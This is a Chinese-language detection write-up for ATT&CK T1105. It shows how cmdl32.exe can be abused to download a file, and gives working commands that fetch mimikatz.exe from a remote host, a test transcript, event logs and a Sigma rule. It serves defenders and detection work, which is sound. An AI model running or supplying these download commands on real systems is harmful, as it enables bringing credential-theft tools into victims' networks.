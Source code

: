 # T1105-Win-利用cmdl32进行文件下载行为(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻陷的环境中。可以通过命令控制通道从外部攻击者控制的系统中复制文件，以便将工具带入被攻陷的网络环境中，或通过与另一个工具（如FTP）的替代协议复制文件。文件也可以在Mac和Linux上使用scp、rsync和sftp等本机工具进行复制。

## 测试案例

cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。

### 步骤一

使用以下命令并且生成相关配置文件。

```yml
icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
set tmp=%cd%
echo [Connection Manager] > settings.txt
echo CMSFile=settings.txt >> settings.txt
echo ServiceName=WindowsUpdate >> settings.txt
echo TunnelFile=settings.txt  >> settings.txt
echo [Settings]  >> settings.txt
echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt
```

### 步骤二

然后继续执行即可下载成功。

```yml
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
move VPNBDFF.tmp mimikatz.exe
```

## 检测日志

Windows安全日志、其他EDR类产品

## 测试复现

windows server 2016进行测试，测试效果Ok。

```yml
C:\Users\Administrator>cd C:\Users\Administrator\Desktop\test

C:\Users\Administrator\Desktop\test>icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>set tmp=%cd%

C:\Users\Administrator\Desktop\test>echo [Connection Manager] > settings.txt

C:\Users\Administrator\Desktop\test>echo CMSFile=settings.txt >> settings.txt

C:\Users\Administrator\Desktop\test>echo ServiceName=WindowsUpdate >> settings.txt

C:\Users\Administrator\Desktop\test>echo TunnelFile=settings.txt  >> settings.txt

C:\Users\Administrator\Desktop\test>echo [Settings]  >> settings.txt

C:\Users\Administrator\Desktop\test>echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt

C:\Users\Administrator\Desktop\test>cmdl32 /vpn /lan %cd%\settings.txt

C:\Users\Administrator\Desktop\test>icacls %cd% /remove:d %username%
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>move VPND1F2.tmp mimikatz.exe
移动了         1 个文件。
```

## 测试留痕

### 日志记录1

```log
创建新进程。4688，windows安全日志

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x40e0
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /deny Administrator:(OI)(CI)(DE,DC)
```

### 日志记录二

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x12c18
 新进程名称: C:\Windows\System32\cmdl32.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: cmdl32  /vpn /lan C:\Users\wangxin\Desktop\test\settings.txt
```

### 日志记录三

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xE991EB

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x133b8
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x12fac
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /remove:d Administrator
```

## 检测规则/思路

### sigma规则

```yml

title: Windows下利用cmdl32进行文件下载行为
status: experimental
description:  cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。攻击者可以利用cmdl32进行简单的文件传输活动。
references:
    - https://www.t00ls.cc/thread-63254-1-1.html
tags:
    - attack.command_and_control
    - attack.execution
    - attack.t1105
logsource:
    product: windows #windows
    service: process_creation #安全事件，进程创建
detection:
    selection:
        ProcessCommandline|contains|all: #进程命令行参数包含以下任意一项
            - 'settings.txt'
        Image|endswith: 
            - 'cmdl32.exe' #进程路径为以wuauclt.exe
    condition: selection
falsepositives:
    - Unknown
level: high
```

### 建议

低版本操作系统无法记录命令行参数及子父进程，建议通过Sysmon进行监控。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

cmdl32代替certutil.exe

<https://www.t00ls.cc/thread-63254-1-1.html>

